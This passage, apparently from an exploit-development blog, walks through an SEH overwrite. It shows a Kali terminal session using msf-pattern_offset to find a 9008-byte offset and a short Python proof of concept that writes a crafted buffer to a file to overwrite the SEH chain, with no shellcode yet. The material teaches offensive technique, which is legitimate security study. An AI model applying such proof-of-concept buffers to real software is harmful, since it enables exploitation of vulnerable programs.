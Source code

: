 The nSEH value is copied and the offset is found using msf-pattern_offset:

```term_session
root@kali:~# msf-pattern_offset -q 336F4C32 -l 50000 
[*] Exact match at offset 9008
[*] Exact match at offset 29288
[*] Exact match at offset 49568
root@kali:~#
```

## Hijacking the power

Updated PoC:

```term_session
import struct

buffer = "A" * 9008 + "BBBB" + "CCCC"

f = open ("finding3.txt", "w")
f.write(buffer)
f.close()
```

When the aforementioned process is yet repeated, an additional messagebox appears, just click OK:

![](/assets/img/Findings3/8.png)

The SEH Chain is overwritten as desired:

![](/assets/img/Findings3/9.png)
